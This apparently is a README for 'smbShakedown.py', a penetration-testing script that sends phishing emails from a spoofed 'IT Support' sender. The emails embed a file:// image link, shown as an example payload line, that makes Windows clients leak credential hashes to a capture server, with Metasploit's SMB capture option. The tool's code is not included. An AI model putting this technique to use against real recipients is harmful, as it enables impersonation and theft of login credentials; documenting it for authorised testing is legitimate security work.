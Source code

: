 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py
    
#Example
        Launch smbShakedown.py and follow the wizard:
        
        Enter SMTP Server address[smtp.gmail.com]: 
        ENTERED: "smtp.gmail.com"

        Enter your SMTP Server Port[587]: 
        ENTERED: "587"

        Enter SMTP Server username[user@gmail.com]: 
        ENTERED: "user@gmail.com"

        Enter SMTP Server password: 

        Enter SMB Capture Server IP address[10.37.242.7]: 
        ENTERED:10.37.242.7

        Enter "from name":[IT Support]
        ENTERED:IT Support
        
        Enter "from address":[user@gmail.com]:user@gmail.com
        ENTERED:user@gmail.com
        
        Enter recipient(s) name[Bob]: Bob
        ENTERED:Bob
        
        etc..
#Usage
    1.Configure SMTP Server, smarthost/localhost/other:
    (Looking into intergrating smtpd for local SMTP server option)
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.
    
#To do:
    Multiple recipient address support.
    SMTP Anonymous Auth option
    Add error handling.
    fork.
